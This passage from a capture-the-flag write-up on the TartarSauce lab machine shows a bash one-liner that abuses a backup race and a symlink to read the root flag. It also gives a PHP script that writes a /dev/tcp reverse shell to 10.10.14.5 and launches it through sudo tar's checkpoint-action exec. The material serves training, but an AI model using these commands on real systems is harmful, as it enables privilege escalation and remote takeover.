 And there's the flag.

As a one-liner, it looks like this:



    onuma@TartarSauce:/dev/shm$ cd /dev/shm; start=$(find /var/tmp -maxdepth 1 -type f -name ".*"); cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); while [ "$start" == "$cur" -o "$cur" == "" ] ; do sleep 10; cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); done; echo "File changed... copying here"; cp $cur .; fn=$(echo $cur | cut -d'/' -f4); tar -zxf $fn; rm var/www.md/robots.txt; ln -s /root/root.txt var/www.md/robots.txt; rm $fn; tar czf $fn var; mv $fn $cur; rm $fn; rm -rf var
    File changed... copying here

    onuma@TartarSauce: cat /var/backups/onuma_backup_error.txt
    ...
    ------------------------------------------------------------------------
    Integrity Check Error in backup last ran :  Wed May 30 09:38:30 EDT 2018
    ------------------------------------------------------------------------
    /var/tmp/.154b63306d83a3c63fb5d432d97be7807b521909
    diff -r /var/www.md/robots.txt /var/tmp/check/var/www.md/robots.txt
    1,7c1
    < User-agent: *
    < Disallow: /webservices/tar/tar/source/
    < Disallow: /webservices/monstra-3.0.4/
    < Disallow: /webservices/easy-file-uploader/
    < Disallow: /webservices/developmental/
    < Disallow: /webservices/phpmyadmin/
    <
    ---
    > e79abdab...
    Only in /var/www.md/webservices/monstra-3.0.4/public/uploads: .empty



## Beyond Root

### Shortcut Shell as onuma

In case I ever wanted to come back to this box and pick up with a shell
as onuma, this alternative php script will provide a reverse shell as
onuma.



    root@kali# cat awp-load.php
    <?php
    system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.5/8082 0>&1' > /dev/shm/.a.sh");
    system("cd / && sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\"bash /dev/shm/.a.sh\"");
    ?>



The script simply has php system commands take the steps shown in
[privesc](#privesc-www-data--onuma) above, writing a shell script,
putting it into a tar archive, and then using `sudo tar` to run it.
